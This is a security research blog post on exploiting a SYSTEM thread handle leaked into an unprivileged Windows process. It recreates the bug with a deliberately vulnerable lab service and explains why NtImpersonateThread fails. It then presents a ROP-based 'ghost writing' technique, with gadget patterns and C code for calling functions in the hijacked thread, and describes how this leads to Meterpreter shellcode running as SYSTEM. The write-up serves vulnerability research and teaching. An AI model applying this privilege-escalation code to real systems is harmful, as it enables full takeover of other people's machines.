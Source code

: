 ```yaml
---
title: Whoops… I dropped my SYSTEM thread HANDLE
---
```


I recently came across an interesting finding from [PrivescCheck](https://github.com/itm4n/PrivescCheck), the tool reported an exploitable leaked thread handle. This is when a privileged process leaks a handle (in this case a thread handle) into an unprivileged process, effectively allowing the unprivileged user to gain access to the privileged handle. These must be manually investigated and while mine was unfortunately a false positive, I still wanted to understand how one would exploit this vulnerability.

## Recreating the Vulnerability

You might be wondering how this happens? Well if you look at the [CreateProcessA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) documentation, you will see:

> bInheritHandles - If this parameter is TRUE, each inheritable handle in the calling process is inherited by the new process.

So if a SYSTEM service created a process inside the user's desktop with [CreateProcessAsUserA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera), and set `bInheritHandles` to TRUE, all inheritable handles within the SYSTEM process are now also available inside the user process.

I recreated this exact setup with <https://github.com/Acebond/LeakyService>. This service will pop-up a cmd.exe inside the user's desktop with a leaked SYSTEM thread handle.

## Exploitation the Wrong Way

The [exploiting-leaked-process-and-thread-handles](https://dronesec.pw/blog/exploiting-leaked-process-and-thread-handles/) blog says that this can be exploited with `NtImpersonateThread`. The idea is that the low privileged user can impersonate the thread token, to gain code execution with a SYSTEM thread token.

![suspicious dog](/assets/img/2024-10-10/suspicious_dog.jpg)

While the blog mentioned above is excellent, I don't believe it and everyone who says this can PoC \|\| GTFO. An example of what they _think_ can be done is here: <https://github.com/Acebond/NtImpersonateThreadMethod>. This method fails, and `NtImpersonateThread` only creates a thread running with an [impersonation level](https://learn.microsoft.com/en-us/windows/win32/secauthz/impersonation-levels) of `SecurityIdentification`. To work successfully, the attack requires `SeImpersonatePrivilege` privilege, which no low privileged user should ever had, otherwise they would hardly be low privileged. If the low privileged user did have `SeImpersonatePrivilege`, this would work, and the newly created thread would be running with a SYSTEM token with an impersonation level of `SecurityImpersonation`.

## Exploitation the Right Way

I couldn't find any other way to exploit this other than doing ROP with `SetThreadContext`, `GetThreadContext`, `SuspendThread`, and `ResumeThread`.

The Internet seems to call this “ghost writing” since no process level manipulation such as `ReadProcessMemory`, `WriteProcessMemory`, and `CreateRemoteThread` are performed, because, well, we can't - we only have access to the thread, not the process.

I based my PoC heavily on <https://github.com/fern89/ghostwriting-2>. This was about the best PoC for ghost writing I could find, except it was only for 32bit.

The ROP requires 3 gadgets:

1. A `ret` gadget. This pops an address off the stack and jumps to that address. We use it to execute function after setting up the parameters.
2. A `jmp $` gadget. This jumps backward by 2 bytes and causes `rip` to jump back to itself, creating an infinite loop. We use it to stop the thread from executing past our push gadget and into the unknown.
3. A `push rdx; call rax` gadget. This will push `rdx` onto the stack, a value we control, and then be used to call `rax` which will hold the address of our `jmp $` infinite loop gadget. We use it to push data to the stack, and effectively halt the thread from doing anything meaningful.

The 3rd gadget could be anything like:

```plaintext
push reg1; call reg2
push reg1; jmp reg2
push reg1; push reg2; ret
mov [reg1]; ret
mov [reg1]; call reg2
mov [reg1]; jmp reg2
```

With these gadgets, and a **VERY** good (nobody seems to talk about the shadow space except for <https://retroscience.net/x64-assembly.html>, thank you) understanding of the Windows 64bit calling convention, we can execute a function in the remote thread like so:

```c
DWORD64 CallFuncRemote(HANDLE hThread, Gadgets gadgets, DWORD64 funcAddr, BOOL returnVal, const uint64_t count, const DWORD64 parameters[]) {

    // 1. Check/Fix Stack alignment
    CONTEXT ctx = { .ContextFlags = CONTEXT_FULL };

    SuspendThread(hThread);
    GetThreadContext(hThread, &ctx);

    int isStackAlignmentGood = ((ctx.Rsp + 0x08) == ((ctx.Rsp + 0x08) & ~0x0F));
    int isEvenPUSHParameters = ((count <= 4) || (count % 2 == 0));

    ResumeThread(hThread);

    if (isStackAlignmentGood ^ isEvenPUSHParameters) {
        PushData(hThread, gadgets, 0x00);
    }

    // 2. PUSH function parameters
    for (uint64_t i = count; i > 4; i--) {
        PushData(hThread, gadgets, parameters[i-1]);
    }

    // 3. PUSH shadow space if required
    if (count > 4) {
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
    }

    // 4. PUSH jmps save return pointer
    PushData(hThread, gadgets, gadgets.jmps);

    // 5. PUSH function to call address
    PushData(hThread, gadgets, funcAddr);

    // 6. Execute with ret gadget
    Slay(hThread, gadgets, 
        (count > 0 ? parameters[0] : 0),
        (count > 1 ? parameters[1] : 0),
        (count > 2 ? parameters[2] : 0),
        (count > 3 ? parameters[3] : 0)
    );

    // 7. Ensure the thread _did_ something
    WaitUnblock(hThread);

    // 8. Get return value if required
    return (returnVal ? GetReturnValue(hThread, gadgets) : 0);
}
```
Full code here: <https://github.com/Acebond/GhostWrite64>

We use this to `VirtualAlloc` some memory in the privileged process, write some shellcode to that memory with a named pipe, and then call `CreateThread` to execute the shellcode, and lastly, restore the hijacked thread back to whatever it was doing. The full PoC is on [GitHub](https://github.com/Acebond/GhostWrite64) and has some cool tricks like figuring out if the target thread has been scheduled on the CPU yet, and how to determine if we need to realign the stack.

### PoC \|\| GTFO

In the screenshot below, LeakyService is running, and will spawn a cmd.exe as the lowpriv user. The cmd.exe (PID 9060 in this example) has a leaked thread handle to the LeakyService.exe which is running as SYSTEM.

![System Informer showing the leaked handle](/assets/img/2024-10-10/process.png)

To exploit this, I ran the GhostWrite PoC inside the cmd.exe (you'd otherwise have to `OpenProcess` and `DuplicateHandle`); this causes the leaked handle to leak again from cmd.exe into GhostWrite.exe, because cmd creates process with inherit handles set to TRUE.

![PoC getting a Meterpreter shell](/assets/img/2024-10-10/poc.png)

GhostWrite then hijacks the SYSTEM thread using the leaked handle and the ROP method described above, creates its own thread inside the SYSTEM process to run a Meterpreter shellcode, and seamlessly restores the original thread execution. Easy-peasy.